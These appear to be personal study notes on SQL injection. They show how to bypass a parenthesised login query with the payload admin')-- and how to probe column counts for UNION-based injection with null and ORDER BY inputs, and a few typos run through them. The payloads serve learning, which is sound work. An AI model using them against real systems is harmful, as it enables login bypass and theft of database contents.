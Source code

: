 ### Paranthetical evaulations  
Evals in Parantheses are always evaluated first  
Let's take the following:
```sql
SELECT * FROM logins WHERE (username='admin' and id>1)AND password = 'hashed password';
```
The query above ensures that the users ID is always greater than 1.  
Logging in with 'Admin' and the correct password will still fail if the admin has an id = 1  
Logging in with user 'Tom' and toms correct password will result in a successful login  
Attempting to just comment out the rest of the query will result in a syntax error.  
```sql
SELECT * FROM logins WHERE (username='admin'-- ' and ID>1) AND password = 'hashed password';
# This results in a syntax error because you didn't close out the paranthesis
```
The solution is to adjust your syntax to close out the parenthesis  
Injected Code: admin')-- 
```sql
# Resulting query
SELECT * FROM logins WHERE (username='admin')-- ' AND id > 1) AND password = 'hashed password';
# As you can see, we properly closed the parenthesis, and commented out the rest of the query, thus returning true
```
## The Union Clause
### Summary
Union is used to combine results from multiple SELECT statements  
Can SELECT and dump data from all across the DBMS, from multiple tables and db's

```sql
# Example single statements
SELECT * FROM ports;
SELECT * FROM ships;
# Each of these returns 1 entry from 1 table
```
```sql
# Exampe UNION combining the above
SELECT * FROM ports UNION SLECT * FROM ships;
# Combines the entries from the first 2 statements
```
### Detection
1. Find a successful query
2. Start adding 'null' columns until you no long recieve an errors  
```
# Add null columns until the app no longer errors out
jeremy' union select null,null,null#

# Order by - Unlike null columns, this method works until it fails. So you keep increasing the integer until the query errors out.
jeremy' order by 1#
jeremy' order by 2#
etc...
```
3. Once you find the the correct number of columns, you can begin filling them with data.
> :warning: Not all columns may be displayed. You may find 3 columns but it only display's 2 columns. Useful to note which columns are displayed

